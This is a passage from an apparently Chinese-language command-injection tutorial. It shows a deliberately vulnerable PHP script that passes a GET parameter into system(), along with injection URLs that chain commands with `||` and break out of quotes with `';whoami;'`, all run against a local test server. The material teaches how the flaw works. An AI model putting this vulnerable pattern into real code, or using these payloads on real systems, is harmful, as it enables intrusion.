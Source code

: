 `http://127.0.0.1:9999/test2.php?cmd=127.0.0.q||pwd||zip%20-r%20zip.zip%20./*`

![](assets/markdown-img-paste-2018041612564099.png)

可见符号`||`就是当遇到成功执行的命令会停下来  


#### 测试三：

test3.php
```php
<?php
$test = $_GET['cmd'];
system("ls -al '$test'");
?>
```

`http://127.0.0.1:9999/test3.php?cmd=./`

![](assets/markdown-img-paste-20180416130450766.png)

`http://127.0.0.1:9999/test3.php?cmd=./';whoami;'`

![](assets/markdown-img-paste-20180416130748751.png)
